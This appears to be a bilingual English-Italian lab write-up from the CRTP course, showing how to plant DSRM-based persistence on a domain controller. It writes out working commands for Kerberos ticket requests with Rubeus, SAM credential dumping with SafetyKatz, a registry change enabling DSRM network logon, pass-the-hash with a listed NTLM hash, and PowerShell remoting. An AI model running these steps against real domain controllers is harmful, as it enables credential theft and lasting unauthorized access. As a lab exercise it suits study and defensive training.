

> [!INFO] Learning objective
> We want to understand how access to a Domain Controller can expose its **Directory Services Restore Mode (DSRM)** administrator credentials and how a change to the DSRM logon configuration can create a persistent access path in the CRTP lab.
>
> **Lab target:** `dcorp-dc` (`172.16.2.1`)  
> **Starting machine:** our `student555` VM 
> **Initial privileged identity used in the lab:** `dcorp\svcadmin`

> [!NOTE] 
> L'obiettivo è capire una tecnica di persistenza sul Domain Controller. Partiamo dai privilegi già ottenuti con `svcadmin`, esaminiamo l'account locale DSRM e osserviamo come una modifica alla configurazione dei logon renda possibile un accesso successivo. 
> **L'Administrator DSRM non è lo stesso account dell'Administrator del dominio.**

## Attack path overview



  

---

  

## 1. Understanding the DSRM account

Before we start, we need to distinguish **DSRM Administrator** from the **domain Administrator** account.
- DSRM stands for *Directory Services Restore Mode*.
- The DSRM account is a **local recovery administrator account on a Domain Controller**.
- Its password is set when the server is promoted to a Domain Controller and can later be changed.
- The account is not the domain's `Administrator` account, even though both may appear as `Administrator` in their respective security contexts.
- Its NTLM hash is associated with the DC's **local SAM**, rather than being the same object as the domain Administrator's Active Directory credentials.
  

> [!NOTE] 
> Quando un server viene promosso a Domain Controller viene configurata una password DSRM, destinata al recupero di Active Directory. 
> L'account locale DSRM è **separato** dall'utente `dcorp\Administrator`. Questo è il motivo per cui la sua credenziale e il relativo hash possono differire da quelli dell'Administrator del dominio.


## 2. Re-establish our privileged session on `dcorp-dc`
We already have access to a privileged Kerberos authentication context for `svcadmin` from a previous learning objective. Now we need to use that existing access to reach the Domain Controller.


From our student VM shell we can run:
```powershell
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args asktgt /user:svcadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt

```

Once the new shell pops up we can run:
```powershell
echo F | xcopy C:\AD\Tools\Loader.exe \\dcorp-dc\C$\Users\Public\Loader.exe /Y

winrs -r:dcorp-dc cmd

netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=172.16.100.55
```
- ![[Pasted image 20261125152203.png]]

Now we are on `dcorp-dc` and we have all the tools.

  

---
## 3. Examine the DSRM Administrator credential material

Now that we have reached `dcorp-dc`, we want to understand whether the local SAM contains the DSRM Administrator's NTLM credential material.

We can run in the privileged DC context (`svcadmin`):
```powershell
C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe -args "token::elevate" "lsadump::evasive-sam" "exit"
```

![[Pasted image 20261125152305.png]]

We can identify the following NTLM value for the **DSRM Administrator**:

```text
a102ad5753f4c441e3af31c97fad86fd
```

> [!IMPORTANT] Important distinction
> At this stage, we are working with the **local DSRM Administrator**, not the domain's `dcorp\Administrator` account.


---

## 4. Change the DSRM logon behavior

The next objective is to understand why the DSRM credential cannot normally be used for regular remote authentication to a running Domain Controller, and what configuration change the lab records.
  
From the privileged `dcorp-dc` shell, the command is:
```powershell
reg add "HKLM\System\CurrentControlSet\Control\Lsa" /v "DsrmAdminLogonBehavior" /t REG_DWORD /d 2 /f
```

![[Pasted image 20261125152400.png]]
- The registry modification completed successfully.  

> [!NOTE] 
> Stiamo modificando **la politica di accesso dell'account** tramite il registro del Domain Controller. Il valore `2` amplia le condizioni nelle quali l'account locale DSRM può autenticarsi. 
> È una configurazione ad alto rischio perché può creare un percorso di persistenza; la riuscita di una connessione dipende comunque anche dai servizi, dalle autorizzazioni e dai controlli di rete.


---

## 5. Understand the NTLM-based logon context recorded in the lab

We return to our **student VM** and we use the DSRM Administrator's NTLM value to create a new logon context with a Mimikatz-derived pass-the-hash function.

The command is:

```powershell
C:\AD\Tools\Loader.exe -Path C:\AD\Tools\SafetyKatz.exe "sekurlsa::evasive-pth /domain:dcorp-dc /user:Administrator /ntlm:a102ad5753f4c441e3af31c97fad86fd /run:cmd.exe" "exit"
```

![[Pasted image 20261125152541.png]]

  
---

## 6. Configure the student's WinRM client for the IP-based connection
  
Now we want to understand the WinRM client configuration required by the exercise because we are connecting to the DC by **IP address** instead of its hostname.

From an **elevated PowerShell on the student VM**, the lab uses:

```powershell
Set-Item WSMan:\localhost\Client\TrustedHosts 172.16.2.1
```

This modifies the WinRM client's `TrustedHosts` configuration.
  
> [!NOTE]
> `TrustedHosts` è una configurazione **del client**, non del server: indica quali destinazioni il client considera accettabili in alcuni scenari di remoting non Kerberos. 

---

## 7. Validate access to `dcorp-dc` with PowerShell Remoting

We return to the command shell created in the previous authentication step (`Administrator hash`)

```powershell
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat

Enter-PSSession -ComputerName 172.16.2.1 -Authentication NegotiateWithImplicitCredential

$env:username

```

![[Pasted image 20261125153223.png]]

The notes report that the session reaches the Domain Controller.

  
---
## 8. Why this represents persistence

>[!warning] 
>Now we can access every time using 
>```powershell
>Enter-PSSession -ComputerName 172.16.2.1 -Authentication NegotiateWithImplicitCredential
>```
>Unless the password of `Administrator` is changed.

We have observed a chain in which an already privileged domain context provides access to a DC, exposes its separate DSRM Administrator credential material, and changes the logon policy for that account.

==This can provide a **separate local authentication path to the Domain Controller** even if the originally compromised `svcadmin` account is later remediated.==

  

> [!NOTE]
> La persistenza consiste nel creare una strada di accesso **alternativa** rispetto all'account di dominio iniziale. Se `svcadmin` venisse disabilitato, il percorso DSRM potrebbe rimanere disponibile **solo finché** credenziale, impostazioni di registro e condizioni di accesso lo consentono. Perciò l'affermazione «possiamo collegarci ogni volta, a meno che cambi la password» è incompleta: possono interrompere l'accesso anche la correzione della configurazione DSRM, restrizioni WinRM, ACL e controlli di rete.

> [!IMPORTANT] Final understanding
> We are not promoting the DSRM Administrator to a Domain Admin. 
> We are documenting an alternative **local administrator authentication path to a Domain Controller** enabled by the recorded logon-configuration change.